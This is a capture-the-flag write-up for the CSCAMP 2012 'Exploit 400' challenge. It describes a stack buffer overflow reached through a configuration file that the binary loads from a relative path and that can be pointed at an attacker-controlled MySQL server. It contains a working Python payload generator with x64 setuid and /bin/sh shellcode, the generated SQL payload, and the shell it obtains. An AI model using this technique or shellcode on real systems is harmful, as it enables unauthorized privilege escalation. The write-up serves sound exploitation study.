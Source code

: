 ```yaml
---
title: "CSCAMP CTF 2012 - Exploit 400"
tags:
  - cscamp2012
  - writeup
  - pwn
---
```


We solved the post-patch version of this binary.

Included with the binary was a mysqldb.conf connection configuration file for
the binary to connect to a MySQL database in order to retrieve questions.

```
localhost
game_user
game_pass
game
```

The binary does not specify an absolute path, so we may create a mysqldb.conf in
our home directory and the binary will use ours. The question field returned
will cause a buffer overflow if the length of the question is larger than the
buffer.

The vulnerable code:

```
0000000000400dd4 :
400dd4: 55 push %rbp
400dd5: 48 89 e5 mov %rsp,%rbp
400dd8: 48 83 ec 10 sub $0x10,%rsp
400ddc: 48 89 7d f8 mov %rdi,-0x8(%rbp)
400de0: 48 89 75 f0 mov %rsi,-0x10(%rbp)
400de4: 48 8b 55 f0 mov -0x10(%rbp),%rdx
400de8: 48 8b 45 f8 mov -0x8(%rbp),%rax
400dec: 48 89 d6 mov %rdx,%rsi
400def: 48 89 c7 mov %rax,%rdi
400df2: e8 b1 fe ff ff callq 400ca8
400df7: c9 leaveq
400df8: c3 retq
```

What we may do is setup a MySQL server to serve remote connections and replace
the in-use configuration with our own.

```
db.nandynarwhals.org
game_burger
game_burger
game_burger
```

Now we can create the required table with the following schema:

```sql
create table questions (id integer primary key, Question varchar(2000) not null,
Answer integer not null);
insert into questions values (1, "How many world wars have there been?", 2);n"
```

We have written a python script to generate SQL code to populate the first entry
with our exploit: a NOPsled with a x64 shellcode to setuid(1003) and then spawn
/bin/sh.

```python
import struct, sys

def main():

    if len(sys.argv) < 2:
        print "Usage: python create_payload.py"
        print " BE SURE TO CREATE TABLE WITH THE FOLLOWING FIRST:"
        print " create table questions (id integer primary key, Question
        varchar(2000) not null, Answer integer not null);"
        print " AND INSERT THE FOLLOWING DATA:"
        print " insert into questions values (1, "How many world wars have there
        been?", 2);n"
        return

    shellcode = "xebx0bx2fx62x69x6ex2fx73x68x4ex90x90x90x48x31xc0x66x83xc0x71x48x31xffx48x31xf6x66x81xc7xebx03x66xbexebx03x0fx05x48x31xc0x66x83xc0x3bx48x8dx3dxcfxffxffxffx88x67x07x48x31xf6x48x31xd2x0fx05"
    address = int(sys.argv[1], 16)
    packed_address = struct.pack("Q", address);
    padding = "x90"*(408-len(shellcode))

    payload = padding[:-10] + shellcode + padding[-10:] + packed_address

    mysql_rules = "update questions set Question=CHAR(%s);" % ",".join(str(ord(i)) for i in payload)

    print mysql_rules

if __name__ == "__main__":
    main()
```
Running this script with the return address 0x7fffffffe520 on the stack within
our NOPs.

```shell
amon@Alyx:~/cscamp/exp400$ python create_payload.py
Usage: python create_payload.py

BE SURE TO CREATE TABLE WITH THE FOLLOWING FIRST:
create table questions (id integer primary key, Question varchar(2000)
not null, Answer integer not null);
AND INSERT THE FOLLOWING DATA:
insert into questions values (1, "How many world wars have there been?",
2);
amon@Alyx:~/cscamp/exp400$ python create_payload.py 0x7fffffffe520
update questions set Question=CHAR(144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 144, 144, 144, 144, 144, 235, 11, 47, 98, 105, 110, 47,
115, 104, 78, 144, 144, 144, 72, 49, 192, 102,
131, 192, 113, 72, 49, 255, 72, 49, 246, 102, 129, 199, 235, 3, 102,
190, 235, 3, 15, 5, 72, 49, 192, 102, 131, 192,
59, 72, 141, 61, 207, 255, 255, 255, 136, 103, 7, 72, 49, 246, 72, 49,
210, 15, 5, 144, 144, 144, 144, 144, 144, 144,
144, 144, 144, 32, 229, 255, 255, 255, 127, 0, 0);
amon@Alyx:~/cscamp/exp400$
```

Now all we have to do is apply the SQL update on our fake database and then run
the binary using a relative path with our modified mysqldb.conf in our
directory.

```shell
amon@Alyx:~/cscamp/exp400/exploit$ whoami
amon
amon@Alyx:~/cscamp/exp400/exploit$ ls
mysqldb.conf
amon@Alyx:~/cscamp/exp400/exploit$ ~/cscamp/exp400/level400
$ whoami
level3
$ cat key
```
